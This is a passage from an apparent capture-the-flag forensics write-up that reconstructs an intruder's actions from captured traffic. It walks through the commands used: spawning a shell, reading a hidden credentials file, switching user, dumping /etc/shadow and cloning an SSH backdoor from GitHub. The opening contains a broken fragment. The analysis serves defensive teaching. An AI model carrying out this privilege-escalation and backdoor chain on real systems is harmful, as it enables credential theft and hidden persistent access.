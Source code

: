 ```
<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
```

We can see in the stream the password used by the attacker to escalate to the user james.

**4) How did the attacker establish persistence?**

We're going to go through these commands and examine exactly what was done by the adversary.

* id

Checks to see what user they are currently and the privileges associated.

* python3 -c 'import pt;pty.spawn("bin/bash")'

They then import the pty module to spawn a more stable bash shell because they have the required permissions.

However, this is still not persistent.

* ls -lAh

The adversary then begins looking for files, including hidden files and their permissions.

* cat .overpass

The . in front of overpass indicates it is a hidden file. They cat it to view the hidden file looking for credentials to escalate privileges.

* su james

It looks like they found a user, you can see they enter the password. These were both likely found in the hidden file. They switch their bash user from www/data to james.

* cd ~

Now that they are user james, they are going to cd to the home directory. The ~ is unnecessary because they could have just used cd for this.

* sudo -l]

Another mistake by the adversary, they were trying to list privileges but added a ]

* sudo -l

Finally, they were able to list privileges of their compromised user james. The adversary learnes here what commands they can now run as root.

```
User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
```

The attacker got lucky here. James has access to all commands.

* sudo cat /etc/shadow

Since they can cat as root, they go and check the volume shadows for hashes to crack.

* git clone https://github.com/NinjaJc01/ssh-backdoor

The attacker now goes on to establish persistence through an [ssh backdoor](https://github.com/NinjaJc01/ssh-backdoor) since they do not need to further escalate privileges.
